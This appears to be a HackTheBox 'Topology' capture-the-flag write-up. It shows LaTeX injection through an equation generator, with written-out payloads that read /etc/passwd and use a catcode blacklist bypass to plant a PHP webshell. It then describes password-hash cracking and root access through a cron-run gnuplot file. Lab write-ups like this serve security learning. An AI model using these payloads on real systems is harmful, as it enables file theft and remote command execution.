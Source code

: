 # HackTheBox - Topology

I entered the IP in the webbrowser and saw a university website.

![Screenshot0](./screenshots/0.png)

I looked at the page and saw a link to the __LaTeX Equation Generator__.

__latex.topology.htb/equation.php__

![Screenshot1](./screenshots/1.png)

Furthermore I discovered that in the webroot __directory listing__ is open.

![Screenshot2](./screenshots/2.png)

OK, so we are dealing with __Latex__.

The page expects an input and spits us a `.png` image out.

I had read a few times about __latex injections__ but never played around with it.

First I tried it wild with some payloads I found and found out that a few terms are blacklisted here.

For example, `\write` cannot be used and we get the following output.

![Screenshot3](./screenshots/3.png)

But `write` without preceding backslash works.

I read up online, gathered different online resources on __latex injections__ and tried to get the blacklist.

Helpful was this online resource I found:

[https://hovav.net/ucsd/dist/texhack.pdf](https://hovav.net/ucsd/dist/texhack.pdf)

At this point it was really a lot of try and error.

First I found a payload that showed me the first line of a system file like `/etc/passwd`.

```LaTeX
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

I urlencoded it, appended it to the `eqn=` parameter of the URL and in burp I got to see the first line of the `/etc/passwd`.

![Screenshot4](./screenshots/4.png)

Well, that's already a start...

Later I found another payload with which I could read a little more than just the first line.

However, I tried for a long time to find any files that would get me further and got stuck again.

Well, it would be cool to be able to write on the system to place a webshell.

Let's remember the blacklist.

`\write` causes problems and `write` does not.

In the document I found a pretty cool __bypass__ using __catcode__.

With `\catcodeX=0` I was able to set the crucial bypass.

This line causes LaTeX to treat the character `X` the same as the character `\` and I was able to bypass the blacklist with `Xwrite`.

My payload was now as follows:

```latex
\catcode`X=0
\newwrite\outfile
\openout\outfile=shell.php
Xwrite\outfile{<?php echo shell_exec($_GET['cmd']); ?>}
\closeout\outfile
```

I urlencoded it and sent it to the burp repeater and got my long awaited webshell under `/tempfiles`.

![Screenshot5](./screenshots/5.png)

From the placed webshell I established a reverse-shell and operated now under the user `www-data`.

![Screenshot6](./screenshots/6.png)

## www-data -> vdaisley

Under `/var/www/dev` I found a file `.htpasswd`.

![Screenshot7](./screenshots/7.png)

On the [Hashcat Examples](https://hashcat.net/wiki/doku.php?id=example_hashes) page I looked which hashtype we are dealing with here and cracked the password.

![Screenshot8](./screenshots/8.png)

I logged in via SSH and got the user flag.

![Screenshot9](./screenshots/9.png)

## vdaisley -> root

With `pspy` a frequent job aroused my attention.

![Screenshot10](./screenshots/10.png)

We can see that `find` is used to search for `.plt` files under `/opt/gnuplot` and that these are executed via `gnuplot`.

I read up on gnuplot and came across the following interesting documentation that we can also run system commands through it.

[gnuplot](http://gnuplot.info/docs_5.5/loc18483.html)

I wrote a `rev.plt` file with the following content into the `/opt/gnuplot` directory.

![Screenshot11](./screenshots/11.png)

I got reverse shell as root and got the final flag.

![Screenshot12](./screenshots/12.png)
